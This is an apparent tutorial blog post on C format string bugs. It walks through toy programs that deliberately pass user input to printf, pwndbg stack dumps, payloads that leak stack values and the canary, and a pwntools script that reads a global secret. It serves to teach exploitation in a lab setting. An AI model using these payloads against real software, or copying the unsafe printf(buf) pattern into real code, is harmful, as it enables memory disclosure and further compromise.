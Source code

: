 ```yaml
---
layout: page
title: Format Strings
tags: [format_strings, pwn]
---
```


Format specifiers in C are used to take inputs and print the output of a type. It is a way to tell the compiler the type of data that is being used for i/o. They are mostly used with the printf and scanf family of functions such as printf, sprintf, scanf, sscanf. The following table shows the use of various format specifiers in C / C++

<table>
	<thead>
		<tr>
			<th>Format specifier</th>
			<th>Used for</th>
		</tr>
	</thead>
	<tr>
		<td>%c</td>
		<td>A single character</td>
	</tr>
		<tr>
		<td>%s</td>
		<td>A string</td>
		</tr>
	<tr>
		<td>%hi</td>
		<td>short (signed)</td>
	</tr>
	<tr>
		<td>%hu</td>
		<td>short (unsigned)</td>
	</tr>
	<tr>
		<td>%lu</td>
		<td>long (unsigned)</td>
	</tr>
	<tr>
		<td>%i</td>
		<td>A decimal integer</td>
	</tr>
	<tr>
		<td>%o</td>
		<td>An octal integer</td>
	</tr>
	<tr>
		<td>%x</td>
		<td>A hexadecimal integer</td>
	</tr>
	<tr>
		<td>%p</td>
		<td>An address( or pointer )</td>
	</tr>
	<tr>
		<td>%f</td>
		<td>Floating point numbers</td>
	</tr>
	<tr>
		<td>%%</td>
		<td>The % symbol</td>
	</tr>
	<tr>
		<td>%u</td>
		<td>unsigned int</td>
	</tr>
	<tr>
		<td>i$</td>
		<td>Direct parameter access, specifies the parameter to use for input</td>
	</tr>
	<tr>
		<td>%ix</td>
		<td>Width modifier. Specifies the minimum width of output</td>
	</tr>
	<tr>
		<td>%hh</td>
		<td>Specifies that the length is one byte</td>
	</tr>
		<tr>
		<td>%h</td>
		<td>Specifies that the length is two bytes</td>
	</tr>
</table>

## Format String Bug
It occurs when the user input is passed as format argument to the printf of scanf family of functions. Consider a simple C program:
```c
#include<stdio.h>

void func(){
	unsigned long x1 = 0xdeadbeef;
	unsigned long x2 = 0xcafebabe;
	unsigned long x3 = 0xbabecafe;
	unsigned long x4 = 0xd00df00d;
	char buf[32] ;
	fgets(buf,32,stdin);
	printf(buf);
}
int main(){
	func();
	return 0;
}
```
Let's send a bunch of `%p` and see what happens. 
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/fmtstr/fmtstr_01.png'>
Thus, we see that we can dump local stack variables. Format string bug is so powerful, it may lead to memory corruption and arbitrary code execution. The first few QWORDs come from printf's stack and the data after that comes from the stack of the caller function.
The `rsp` register stores a pointer to the top of the stack. Let's say this pointer is `ptr`. Then, in this case, `%6$p` gives the value stored at `*ptr`, `%7$p` gives the value stored at *(ptr+8), `%8$p` gives the value stored at *(ptr+16) and so on. Let's verify this using `pwndbg`.
```py
pwndbg> b *0x0000000000401263
```
With the breakpoint set right after the call to printf, we can run the program and send this input `%6$p.%7$p.%8$p.%9$p`.

This gives the output `0xdeadbeef.0xcafebabe.0xbabecafe.0xd00df00d`. Let's examine the stack pointer.
```py
pwndbg> p/x $rsp
$1 = 0x7fffffffdce0
pwndbg> x/10gx 0x7fffffffdce0
0x7fffffffdce0:	0x00000000deadbeef	0x00000000cafebabe
0x7fffffffdcf0:	0x00000000babecafe	0x00000000d00df00d
0x7fffffffdd00:	0x2437252e70243625	0x252e702438252e70
0x7fffffffdd10:	0x00007f000a702439	0x00000000004012a0
0x7fffffffdd20:	0x0000000000000000	0x5ff669990d493f00

```
We can also compute the offset to the stack canary using the concept mentioned above. The canary is stored at (ptr+72) which means that the payload to dump it would be %15$p (72/8 + 6 = 15)

```py
pwndbg> r
Starting program: /home/sh4dy/InfoSec/pwn/fmtstr/chall
%15$p
0xd93923e60f223e00
```

### Reading data from a particular address
Instead of reading the data stored at the stack, we would like to read data from any arbitrary location. Consider the following program:
```c
#include<stdio.h>
#include<string.h>

char secret[32];

void setup(){
	strcpy(secret,"format_strings_are_cool");
}

void func(){
	unsigned long x = 0xdeadbeef;
	char buf[32];
	scanf("%32s",buf);
	printf(buf);
}

int main(){
	setup();
	func();
	return 0;
}
```
Our goal is to read the contents of the array `secret`. To do that, we can insert the address of `secret` into the stack and read it using `%s`. The address must be aligned properly.
```py
pwndbg> b *func+77
Breakpoint 1 at 0x401201
```
Let's run the program and send the input `aaaaaaaabbbbbbbb` and dump few QWORDS from the pointer stored at `rsp`
```py
pwndbg> dq  $rsp 10

00007fffffffdd40     00000000000000c2 00000000deadbeef
00007fffffffdd50     6161616161616161 6262626262626262
00007fffffffdd60     00007ffff7fb1200 0000000000401240
00007fffffffdd70     0000000000000000 910b6acb4da2ec00
00007fffffffdd80     00007fffffffdd90 0000000000401234
```
Here, `%6$p` prints `0xc2`, `%7$p` prints `0xdeadbeef` and so on. In order to perform an arbitrary read, we can insert the target address at some location on the stack and read it using `%i$s` where `i` is the offset. This task can be done easily using `pwntools`.

```py
#!/usr/bin/env python3

from pwn import *
elf = context.binary = ELF("./chall")

p = elf.process()

gdb.attach(p,gdbscript="b*func+77")
payload = b'aaaa%9$s'+ p32(elf.sym.secret)
pause()
p.sendline(payload)
p.interactive()
```
Running the script and dumping the stack, we get:
```py
pwndbg> x/10gx $rsp
0x7fff7d03ed10:	0x00000000000000c2	0x00000000deadbeef
0x7fff7d03ed20:	0x7324392561616161	0x0000000000404060
0x7fff7d03ed30:	0x00007fd2daa302e8	0x0000000000401240
0x7fff7d03ed40:	0x0000000000000000	0xef1d016c9183a200
0x7fff7d03ed50:	0x00007fff7d03ed60	0x0000000000401234
```
`0x404060` is the address of the buffer `secret`. It is stored at the offset `9`. Sending `%9$s` with some padding to account for the 8 byte alignment would print the string stored at `0x404060`.

References:
[https://www.freecodecamp.org/news/format-specifiers-in-c/](https://www.freecodecamp.org/news/format-specifiers-in-c/)

[https://kevinalmansa.github.io/application%20security/Format-Strings/](https://kevinalmansa.github.io/application%20security/Format-Strings/)

[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

